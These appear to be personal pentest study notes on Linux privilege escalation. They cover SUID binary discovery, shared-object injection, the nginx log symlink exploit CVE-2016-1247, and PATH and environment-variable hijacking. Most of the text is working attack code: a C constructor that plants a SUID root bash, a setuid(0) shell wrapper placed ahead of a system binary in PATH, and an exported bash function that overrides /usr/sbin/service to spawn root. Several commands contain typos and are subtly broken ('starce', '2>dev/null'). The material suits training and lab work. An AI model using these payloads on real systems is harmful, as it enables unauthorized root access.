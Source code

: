 ## SUID

`find / -perm -u=s -type f 2>dev/null`  
Also we can use winpeas.

Then search find file gtfo website.

* * *

## Other SUID escalation

`find / -type f -perm 04000 -ls 2>/dev/null`

#### Esclation via shared object injection

Check for the file which have shared asccess.  
to check access. `ls -la <filename>`  
Try running it. To get more info: `starce <filename> 2&>1`

`starce <filename> 2&>1 | grep -i -E "open|acess|no such file"`

Check for path and try inject malicious code instead. So when executing the file name again. It should execute the malicious code:

```C
#include<stdio.h>
#include<stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
 system("cp /bin/bash/ /tmp/bash && chmod +s  /tmp/bash && /tmp/bash -p");
 }
```

`gcc -shared -fPIC -o <filepath/filename> <file.c>`

Then we can get root access.

* * *

#### Escalation via binary symlinks(symbolic link)

[Nginx-Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)

When web server is compromised we login as www-data user.

- Run Lunux-Exploit-Suggester

- Then try to find nginxed-root.sh exploit.

- `dpkg -l | grep nginx`

- `find / -type f -perm 04000 -ls 2>/dev/null` and check if /usr/bin/sudo  have -rws------. This is required fot exploit to work.

- To see log file `ls -la /var/log/nginx` Then we need to replace the log file with malicious code for sylink.

- Run nginx `./nginxed-root.sh /var/log/nginx/eror.log` and press enter.

- Then make a new connection by ssh again in a new terminal as root. Run command `invoke-rc.d nginx rotate >/dev/null 2>&1`. This will simulate restart of nginx.
- Then we will have root access in the previous terminal.

* * *

#### Escalation via Environment Variables

- `env`
- `find / -type f -perm 04000 -ls 2>/dev/null` to find the environment variables.
- Run a env file.
- And check what it is doing by `strings /pathname/file`
- For example 'service'
- `print $PATH` to see the PATH.
- If we add a malicious file and add that to file to path could execute the malicious file.
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
`
`gcc /tmp/service.c -o /tmp/service` now /tmp/service is the malicious file.
- Now we add malicous file to the path. For that `export PATH=/tmp:$PATH`
- Check PATH by `print $PATH`
- Now try executing the previous file.

If we are having direct path like '/usr/sbin/service' we can exploit this by

- Create a malicous function.
- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
- Export this function by `export -f /usr/sbin/service` -f is shel function.
- This will escalate our privileages to root. 